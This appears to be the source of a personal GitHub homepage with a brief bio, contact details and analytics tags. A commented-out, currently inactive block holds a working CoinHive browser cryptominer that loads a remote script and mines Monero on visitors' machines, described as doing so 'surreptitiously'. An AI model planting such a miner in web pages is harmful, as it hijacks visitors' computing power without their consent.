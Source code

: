 ```yaml
---
layout:
---
```


<img src="./get/hello.png" width="100">
<br>

I am interested in engineering effective software,
especially by type theory and machine learning.

contact me:<br>
bohadi protonmail com<br>

<!--
[posts](./writ)
[projects](./proj)

<br><br>
Thanks for the visit.<br>
Here is a short recording of me playing the guitar, which I enjoy.

<audio width="400" height="40" controls controlsList="nodownload">
  <source src="./get/noodle.mp3" type="audio/mpeg">
</audio>
-->


<br>
back to [github](https://github.com/bohadi)<br>


<!--
<br>
Finally, this page can mine Monero on your machine surreptitiously.<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML =
          'Connected... ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error. Miner stopping.';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second:  '   + miner.getHashesPerSecond().toFixed(0) + '<br>' +
          ' total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error (adblock). Miner stopping.';
    }
  }, 3000);
</script>
-->

<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
